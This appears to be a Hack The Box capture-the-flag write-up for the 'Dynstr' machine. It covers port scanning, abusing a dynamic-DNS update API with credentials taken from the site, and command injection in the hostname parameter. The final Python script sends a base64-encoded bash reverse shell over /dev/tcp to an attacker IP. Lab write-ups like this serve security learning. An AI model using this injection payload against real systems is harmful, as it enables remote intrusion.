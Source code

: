 ```yaml
---
title: Dynstr
layout: post
author: Bit Criminals Team
date: 2021-06-24 13:35:00 +0530
type: Pentesting
difficulty: Hard
prompt: https://app.hackthebox.eu/machines/dynstr
---
```


So first of all we run an nmap scan and get the open ports.

```
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```
We visit port 80 in our browser and discover the following information:

![](/images/MaskdMafia/dynstr.png)

We referred to these web-pages (documentation was scarce):

[Remote Access API](https://help.dyn.com/remote-access-api/guidelines/)
[Dnsomatic docs](https://www.dnsomatic.com/docs/api)

However, when sending a valid request via browser,we always got the badauth error. So we tried to do it via a script:

```py
import requests, socket

username = ""
password = ""
hostname = "" # your domain name hosted in no-ip.com

# Gets the current public IP of the host machine.
#myip = requests.get('http://api.ipify.org').text

# Gets the existing dns ip pointing to the hostname.
#old_ip = socket.gethostbyname(hostname)

# Noip API - dynamic DNS update.
# https://www.noip.com/integrate/request.
def update_dns(username,password):
    r = requests.get(f"http://{username}:{password}@dyna.htb/nic/update")

    #if r.status_code != requests.codes.ok:
    print(r.content)
    #pass

# Update only when ip is different.
#if myip != old_ip:
    #update_dns(username, password )
#pass

update_dns("dynadns","sndanyd")
```

And we finally saw this message on running the script:

```
good 10.10.14.123
```
On further enumeration we saw that hostname parameter was had command injection so we tried to take advantage of it by sending a reverse shell in base64 and listening on another terminal with netcat. Here's our script for that:

```py
import requests, socket

username = "dynadns"
password = "sndanyd"

'''
    dnsalias.htb
    dynamicdns.htb
    no-ip.htb
'''
myip="10.10.14.124"
hostname = "aa.dnsalias.htb" # your domain name hosted in no-ip.com
ip="10.129.11.122"

# Gets the current public IP of the host machine.
#myip = requests.get('http://api.ipify.org').text

# Gets the existing dns ip pointing to the hostname.
#old_ip = socket.gethostbyname(hostname)

# Noip API - dynamic DNS update.
# https://www.noip.com/integrate/request.
def update_dns(username,password):
    r = requests.get(f"http://{username}:{password}@dyna.htb/nic/update?hostname=`echo YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEyMy80MjQyIDwmMQ==| base64 -d | bash`\"{hostname}&my={ip}")

    #if r.status_code != requests.codes.ok:
    print(r.content.decode())
    #pass

# Update only when ip is different.
#if myip != old_ip:
    #update_dns(username, password )
#pass

update_dns(username,password)
```
And we get the reverse shell in our terminal !!